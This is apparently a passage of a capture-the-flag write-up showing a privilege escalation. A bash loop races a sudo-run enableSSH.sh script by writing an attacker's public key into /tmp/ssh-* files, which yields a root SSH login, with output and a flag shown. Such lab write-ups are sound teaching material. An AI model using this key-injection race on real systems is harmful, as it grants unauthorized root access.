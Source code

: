 Creating this script
```
#!/bin/bash

while true; do
    echo $key | tee /tmp/ssh-* > /dev/null
done
```

Then execute the other script (with sudo) a couple of times
``` 
cmd: sudo /usr/local/bin/enableSSH.sh
```

Try to ssh with the corresponding (to the public one inject) private key
```  
cmd ssh -i id_rsa root@$IP

cmd: whoami && id
root
uid=0(root) gid=0(root) groups=0(root)

FLAG:3e89a83bf67e992044262f3beec9afb2
```

Note: It might take a while to get the key injected. Depends on the ammount of users and in a bit of luck. <br>
Note2: if it echo's "Error in adding root@ubuntu to authorized_keys file!", it might be a good indicator that the file is being written while checking, just try to ssh before issueing the sudo command again ! 
